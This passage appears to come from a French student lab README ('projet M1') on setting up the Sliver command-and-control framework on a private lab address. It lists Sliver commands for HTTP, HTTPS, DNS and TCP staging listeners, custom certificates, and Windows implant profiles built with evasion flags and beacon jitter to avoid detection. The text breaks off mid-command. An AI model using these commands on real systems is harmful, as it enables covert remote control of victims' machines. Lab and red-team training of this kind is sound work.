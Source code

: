 
## 📡 Configuration des Listeners

### Listeners pour le projet M1
```bash
# Se connecter au serveur
sliver-client

# Créer les listeners nécessaires au projet

# 1. HTTP Listener (principal)
sliver > http --lhost 192.168.56.10 --lport 8080

# 2. HTTPS Listener (sécurisé)
sliver > https --lhost 192.168.56.10 --lport 8443

# 3. DNS Listener (furtif)
sliver > dns --domains project.local --lhost 192.168.56.10 --lport 53

# 4. Listener TCP pour staging
sliver > stage-listener --url tcp://192.168.56.10:8888

# Vérifier les listeners actifs
sliver > listeners
```

### Configuration HTTPS avec certificats personnalisés
```bash
# Générer des certificats auto-signés pour le projet
openssl req -new -x509 -sha256 -key ~/.sliver/certs/ca-key.pem \
    -out ~/silver-workspace/certificates/project-m1.crt \
    -days 365 \
    -subj "/C=FR/ST=IDF/L=Paris/O=Project-M1/CN=silver.project.local"

# Utiliser le certificat personnalisé
sliver > https --lhost 192.168.56.10 --lport 8443 \
    --cert ~/silver-workspace/certificates/project-m1.crt \
    --key ~/.sliver/certs/ca-key.pem
```

---

## 🎯 Génération de Payloads pour le Projet

### Profils spécifiques au projet M1
```bash
# Dans la console Silver

# Profil Windows 10 Standard
sliver > profiles new --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format exe \
    --skip-symbols --evasion \
    win10-standard

# Profil Windows 10 DLL
sliver > profiles new --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format shared \
    --skip-symbols --evasion \
    win10-dll

# Profil Beacon (avec jitter pour éviter détection)
sliver > profiles new beacon --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format exe \
```